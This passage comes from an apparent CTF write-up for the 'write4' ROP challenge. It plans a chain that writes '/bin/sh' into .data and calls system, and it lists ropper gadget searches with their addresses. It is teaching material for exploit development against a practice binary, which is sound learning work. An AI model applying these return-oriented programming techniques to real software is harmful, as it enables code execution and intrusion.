 So to summarize:

- Finding write primitive to write string to _.data_ section
- system address
- pop\_rdi (In order to put the _/bin/sh_ string in a register)

Fortunately, we have ropper!

### pop\_rdi
```
root@linux:~# ropper -f write4 --search 'pop rdi'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: write4
0x0000000000400893: pop rdi; ret;
```
### System()

According to the _afl_ output, pointing at `sym.imp.system`. It's located at `0x004005e0` so lets use that address.

### Write primitive

Now in order to be able to write to the `.data`_,_ we need find a mov gadget reading and writing from addresses we control. And pop gadgets to populate the registers.
```
root@linux:~# ropper -f write4 --search "mov|pop"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov|pop

[INFO] File: write4
0x0000000000400821: mov dword ptr [rsi], edi; ret;
0x00000000004007ae: mov eax, 0; pop rbp; ret;
0x00000000004005b1: mov eax, dword ptr [rax]; add byte ptr [rax], al; add rsp, 8; ret;
0x00000000004005a5: mov eax, dword ptr [rip + 0x200a4d]; test rax, rax; je 0x5b5; call 0x640; add rsp, 8; ret;
0x000000000040073c: mov ebp, esp; call rax;
0x0000000000400809: mov ebp, esp; mov edi, 0x40090c; call 0x5e0; nop; pop rbp; ret;
0x00000000004007a4: mov edi, 0x4008d7; call 0x5d0; mov eax, 0; pop rbp; ret;
0x000000000040080b: mov edi, 0x40090c; call 0x5e0; nop; pop rbp; ret;
0x00000000004006a0: mov edi, 0x601060; jmp rax;
0x00000000004007fd: mov edi, eax; call 0x620; nop; leave; ret;
0x0000000000400820: mov qword ptr [r14], r15; ret;
0x00000000004005a4: mov rax, qword ptr [rip + 0x200a4d]; test rax, rax; je 0x5b5; call 0x640; add rsp, 8; ret;
0x000000000040073b: mov rbp, rsp; call rax;
0x0000000000400808: mov rbp, rsp; mov edi, 0x40090c; call 0x5e0; nop; pop rbp; ret;
0x00000000004007fc: mov rdi, rax; call 0x620; nop; leave; ret;
0x000000000040088c: pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040088e: pop r13; pop r14; pop r15; ret;
0x0000000000400890: pop r14; pop r15; ret;
0x0000000000400892: pop r15; ret;
0x000000000040069f: pop rbp; mov edi, 0x601060; jmp rax;
0x000000000040088b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040088f: pop rbp; pop r14; pop r15; ret;
0x00000000004006b0: pop rbp; ret;
0x0000000000400893: pop rdi; ret;
0x0000000000400891: pop rsi; pop r15; ret;
0x000000000040088d: pop rsp; pop r13; pop r14; pop r15; ret;
```